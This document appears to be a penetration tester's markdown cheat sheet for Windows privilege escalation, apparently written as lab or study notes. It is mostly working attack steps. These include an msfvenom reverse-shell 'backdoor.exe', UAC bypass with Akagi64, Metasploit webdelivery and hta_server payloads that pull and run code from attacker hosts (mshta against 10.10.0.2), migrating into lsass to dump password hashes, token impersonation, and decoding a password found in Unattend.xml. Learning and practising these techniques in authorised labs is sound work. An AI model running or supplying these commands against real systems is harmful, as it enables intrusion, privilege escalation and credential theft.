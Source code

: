 Also check out [Host-based-attacks > Windows > Credential Dumping](../Host%20Based%20Attacks/win-credsdump.md)

# Scripts

- https://github.com/itm4n/PrivescCheck (may find winlogon passwords)
- https://assets.ine.com/labs/ad-manuals/walkthrough-2404.pdf
- with winlogon creds, use psexec smb to login with the creds
- `powershell -ep bypass -c ". .\PrivescCheck.ps1; Invoke-PrivescCheck"`

# Kernel Exploit:

- https://github.com/AonCyberLabs/Windows-Exploit-Suggester
- `./windows-exploit-suggester.py --update` - generates xls to use in nxt step
- `./windows-exploit-suggester.py --database <xlsfile>` --systeminfo <txt_file_systeminfo_output>
- google exploit, may need to upload .exe to target sys, run it to get elevated shell


# Metasploit Module:

- check [Webdelivery](../Exploitation/win-webdelivery.md)
- post/multi/recon/local_exploit_suggester : suggest exploits
	- eg. exploit/windows/local/ms16_014_wmi_recv_notif
- exploit/multi/script/webdelivery : when no vulnerable services running but you have access to victim cmd
	- set target PSH\ (Binary)
	- set payload windows/shell/reverse_tcp
	- set PSH-EncodedCommand false
	- copy-paste generated url and execute on victim cmd. should open shell in msf.
- post/multi/manage/shell_to_meterpreter
	- set WIN_TRANSFER VBS


# UACBypass - UACMe: need local admin account access

- exploit/windows/local/bypassuac_injection
  ![bypassuac_injection](./images/privesc-01.png)
  ![bypassuac_injection](./images/privesc-02.png) 
- migrate process to explorer.exe 
- pgrep explorer.exe OR ps -S explorer.exe
- https://github.com/hfiref0x/UACME
- using meterpreter, upload Akagi64.exe and upload playload generated with msfvenom to target system
	- use exploit/multi/handler to start a listener
	- Akagi64.exe 23 <payload_path> 
	- Akagi64.exe 23 C:\Users\admin\AppData\Local\Temp\backdoor.exe
	- msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.1.3 LPORT=4444 -f exe > 'backdoor.exe'
- once run, we will get meterpreter session - getprivs/getsystem to get elevated privs
- migrate to lsass.exe and run hashdump

# Impersonate
  ![impersonate_prereq](./images/privesc-03.png)
  ![impersonate_prereq](./images/privesc-04.png)
- load icognito
- list_tokens -u : make note of available tokens (eg. delegation token)
- impersonate_token <token_name>
  ![impersonate](./images/privesc-05.png)
  ![impersonate](./images/privesc-06.png)
  

# PowerUp

- https://github.com/PowerShellMafia/PowerSploit
- In target machine:
	- powershell -ep bypass (PowerShell execution policy bypass)
	- . .\PowerUp.ps1
	- Invoke-PrivescAudit - it will find misconfig files/leftover files like Unattend.xml
	- Get password from the Unattend.xml file, decode base64.
	- 
	```
	  $password='QWRtaW5AMTIz'
  	  $password=[System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String($password))
  	  echo $password
  	```
	- runas.exe /user:administrator cmd
- In attacker machine:
	- use exploit/windows/misc/hta_server
	- running the above module generates a .hta payload, run in cmd on target
	- on target cmd: `mshta.exe http://10.10.0.2:8080/6Nz7aySfPN.hta`

# Metasploit module

- exploit/windows/local/bypassuac_injection
	- set target 1 : set correct target based on arch and run